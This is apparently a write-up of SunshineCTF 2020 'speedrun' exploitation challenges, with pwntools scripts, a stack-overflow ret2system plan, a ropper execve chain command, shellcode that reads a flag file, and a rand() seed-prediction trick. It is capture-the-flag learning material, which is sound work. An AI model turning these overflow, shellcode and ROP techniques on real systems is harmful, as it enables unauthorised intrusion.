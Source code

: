 # Speedrun series

**Category**: Binary exploitation, reverse engineering \
**Points**: 10 - 50 \
**Author**: guyinatuxedo

I'd like to say that [datajerk](https://github.com/datajerk) has already
written some nice write-ups for these challenges
[here](https://github.com/datajerk/ctf-write-ups/blob/master/sunshinectf2020/speedrun/README.md)
(and he solved these challenges much more cleanly than I did), so I'll only
explain things he hasn't already covered.

## speedrun-02

I didn't notice there was already a `win` function that called
`system('/bin/sh')`, so instead I called `system()` directly. To do this, I had
to do the following:
- Overflow stack with garbage
- Overwrite return address to `system()`
- Put a fake return address onto the stack
- Put a pointer to the `'/bin/sh'` string onto the stack to serve as an argument

## speedrun-08

Payload
```
-11
6294000
```

## speedrun-14

I more or less exactly followed this guide: https://quentinmeffre.fr/pwn/2017/01/25/easy_method.html.
However, datajerk has a much better solution:
```bash
ropper --file chall_14 --chain "execve cmd=/bin/sh" --badbytes 0a
```

## speedrun-15

For this challenge my solution script was simpler than datajerk's. For some
reason `shellcraft.sh()` didn't work (probably because it was too long?), so I
just used `shellcraft.cat('flag.txt')` instead.

```python
from pwn import *

context.arch = 'amd64'

sh = remote('chal.2020.sunshinectf.org', 30015)

sh.sendline('abc')
s = sh.recvline().decode('ascii').split()
buf = int(s[-1], 0)
print('buf:', hex(buf))

ret_addr_padding = 78

p = asm(shellcraft.cat('flag.txt')).ljust(66, asm('nop'))
p += p32(0xfacade)
p = p.ljust(ret_addr_padding, b'Z')
p += p64(buf)

sh.sendline(p)
print(sh.recvallS(timeout=2))
```

## speedrun-16

For some reason the Ghidra decompilation that datajerk showed eliminated the
huge sequence of XORs on the input value:
```
0x000055555555484d <+112>:	xor    DWORD PTR [rbp-0x54],0x30
0x0000555555554851 <+116>:	xor    DWORD PTR [rbp-0x54],0x31
0x0000555555554855 <+120>:	xor    DWORD PTR [rbp-0x54],0x32
0x0000555555554859 <+124>:	xor    DWORD PTR [rbp-0x54],0x33
...
0x0000555555554a04 <+551>:	xor    DWORD PTR [rbp-0x54],0x91
0x0000555555554a0b <+558>:	xor    DWORD PTR [rbp-0x54],0x92
0x0000555555554a12 <+565>:	xor    DWORD PTR [rbp-0x54],0x93
```

I reversed this with:
```python
def fuck(x):
    x = ord(x)
    for i in range(0x30, 0x94):
        x = x ^ i
    return chr(x)
```

This magically returned the same `x` value. Changing `0x30` or `0x94` messed
this up completely however.

## speedrun-17

I wasn't aware that you could call C functions directly from a Python script, so
I wrote a separate program that returned the desired value. I then used the
`subprocess` module to get this value from my Python script.

```c
#include <stdlib.h>
#include <stdio.h>
#include <time.h>

int main(int argc, char *argv[])
{
    time_t t = time(0);
    srand(t);
    printf("%d\n", rand());
    return 0;
}
```

```python
from pwn import *
import subprocess

sh = remote('chal.2020.sunshinectf.org', 30017)
# sh = process('./chall_17')

sub_ans = subprocess.check_output('./a.out')
p = sub_ans.decode().strip()
print(p)

sh.sendline(p)
print(sh.recvall())
```

